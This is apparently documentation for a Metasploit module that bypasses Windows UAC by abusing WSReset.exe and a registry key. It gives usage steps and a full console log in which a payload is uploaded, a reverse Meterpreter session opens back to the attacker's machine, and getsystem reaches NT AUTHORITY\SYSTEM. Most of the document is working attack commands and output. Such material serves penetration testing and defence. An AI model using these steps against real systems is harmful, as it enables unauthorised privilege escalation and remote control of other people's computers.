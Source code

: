 ## Introduction

This module exploits a flaw in the WSReset.exe Windows Store Reset Tool. The tool
is run with the "autoElevate" property set to true, and it will automatically
launch a file from a low-privilege registry location with elevated privileges.
To bypass, simply place the binary on disk, write its location in the
correct registry key, and run WSReset.exe.  The binary will be run with elevated
privileges.

## Usage

1. Create a session on the target system under the context of a local administrative user.
1. Begin interacting with the module: `use exploit/windows/local/bypassuac_windows_store_reg`.
1. Set the `PAYLOAD` and configure it correctly.
1. If an existing handler is configured to receive the elevated session, then the module's
   handler should be disabled: `set DisablePayloadHandler true`.
1. Make sure that the `SESSION` value is set to the existing session identifier.
1. Invoke the module: `run`.

## Scenarios

### Windows 10.0.17134.885 x64

```
msf5 exploit(windows/local/bypassuac_windows_store_reg) > run

[*] Started reverse TCP handler on 192.168.135.168:4444 
[*] UAC is Enabled, checking level...
[*] Checking admin status...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] win_dir = C:\Windows
[*] tmp_dir = C:\Users\msfuser\AppData\Local\Temp
[*] exploit_dir = C:\Windows\System32\
[*] exploit_file = C:\Windows\System32\WSReset.exe
[*] payload_pathname = C:\Users\msfuser\AppData\Local\Temp\LSbJpvsW.exe
[*] Making Payload
[*] reg_command = C:\Windows\System32\cmd.exe /c start C:\Users\msfuser\AppData\Local\Temp\LSbJpvsW.exe
[*] Making Registry Changes
[*] Registry Changes Complete
[*] Uploading Payload to C:\Users\msfuser\AppData\Local\Temp\LSbJpvsW.exe
[*] Payload Upload Complete
[*] Launching C:\Windows\System32\WSReset.exe
[!] This exploit requires manual cleanup of 'C:\Users\msfuser\AppData\Local\Temp\LSbJpvsW.exe!
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 4 opened (192.168.135.168:4444 -> 192.168.132.125:49680) at 2019-09-04 17:01:46 -0500
[*] Removing Registry Changes
[*] Registry Changes Removed

meterpreter > sysinfo
Computer        : DESKTOP-3DKRD1E
OS              : Windows 10 (Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-3DKRD1E\msfuser
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
